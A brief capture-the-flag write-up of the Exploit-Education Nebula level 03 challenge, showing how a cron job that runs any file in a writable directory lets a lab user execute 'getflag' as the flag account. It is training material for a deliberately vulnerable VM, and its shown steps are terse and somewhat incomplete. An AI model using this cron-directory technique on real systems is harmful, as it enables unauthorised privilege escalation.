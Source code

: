 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 03"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 3](https://exploit.education/nebula/level-03/)

## Challenge 
    
Check the home directory of `flag03` and take note of the files there.
There is a `crontab` that is called every couple of minutes.
Crontab is a service that run periodically. In this example the crontab executes the contents of any file inside
crontab.d directory

## Vulnerability
We can run any commands by writing the commands to a file in the crontab directory and writing the output to a file
```
level03@nebula:echo 'getflag >>/tmp/flag.txt' > run.sh
level03@nebula:/tmp$ ls
flag.txt  VMwareDnD  vmware-root
level03@nebula:/tmp$ cat flag.txt
You have successfully executed getflag on a target account
```
### Solved

